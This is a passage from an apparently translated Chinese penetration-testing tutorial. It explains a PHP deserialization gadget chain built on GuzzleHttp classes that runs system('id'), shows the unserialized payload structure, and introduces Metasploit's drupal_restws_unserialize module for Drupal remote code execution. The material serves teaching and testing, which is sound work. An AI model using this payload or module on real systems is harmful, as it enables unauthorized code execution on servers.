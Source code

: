 我们将我们的命令传递给`handler`方法，将危险函数传递给`stack[]`方法，如下图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/d2cd4c36-ebe9-4e5b-a78d-75dfe3b18823.png)

一旦析构函数被调用（在对象销毁时会自动调用），`_fn_close`方法的属性将被传递给`call_user_func()`，并执行`system(id)`：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/130a43e7-9a43-42bf-8dcd-d80855746173.png)

接下来，我们将反序列化负载。

# 反序列化负载

为了更清楚地理解负载，我们可以对其进行反序列化并使用`var_dump`。根据 PHP 手册，`var_dump`显示关于一个或多个表达式的结构化信息（包括类型和值）。`var_dump`会递归地探索数组和对象，并缩进显示结构。我们也可以使用`print_r()`函数执行相同的操作：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/1e4e11bb-a571-4201-ad87-ca29d6df17ec.png)

由于我们使用基于`GuzzleHttp`客户端的负载，我们需要安装 Guzzle。我们可以使用以下 PHP 代码对其进行反序列化：

```
<?php
require __DIR__ . '/vendor/autoload.php';
$obj= unserialize(json_decode(file_get_contents("./payload.txt")));
var_dump($obj);
?>
```

运行代码将给我们以下输出：

```
object(GuzzleHttp\Psr7\FnStream)#3 (2) {["methods":"GuzzleHttp\Psr7\FnStream":private]=>array(1) {["close"]=>array(2) {[0]=>object(GuzzleHttp\HandlerStack)#2 (3) {["handler":"GuzzleHttp\HandlerStack" :private]=>string(1) "id"["stack":"GuzzleHttp\HandlerStack":private]=>array(1) {[0]=>array(1) {[0]=>string(4) "system"}}["cached":"GuzzleHttp\HandlerStack" :private]=>bool(false)}[1]=>string(7) "resolve"}}["_fn_close"]=>array(2) {[0]=>object(GuzzleHttp\HandlerStack)#2 (3) {["handler":"GuzzleHttp\HandlerStack" :private]=>string(1) "id"["stack":"GuzzleHttp\HandlerStack":private]=>array(1) {[0]=>array(1) {[0]=>string(4) "system"}}["cached":"GuzzleHttp\HandlerStack" :private]=>bool(false)}[1]=>string(7) "resolve"}
```

当执行时，会导致`system()`函数执行传递给该函数的命令，并将输出返回给我们。

# 通过 Metasploit 使用 unserialize()利用 RESTful Web Services RCE

现在我们了解了序列化的概念以及如何对有效载荷进行序列化，让我们使用 Metasploit 的`exploit`模块来利用这个漏洞。执行以下命令来使用`exploit`模块：

```
use exploit/unix/webapp/drupal_restws_unserialize
```

以下截图显示了前述命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/53af4093-02c2-4f7e-a999-34476b2a707d.png)

然后我们设置选项并运行利用。运行 Metasploit 模块后，我们会观察到它首先通过询问`CHANGELOG.txt`来查找**SA-CORE-2019-003**补丁来执行补丁级别检查。执行`id`命令以确认 Drupal 安装上的 RCE，如下所示：
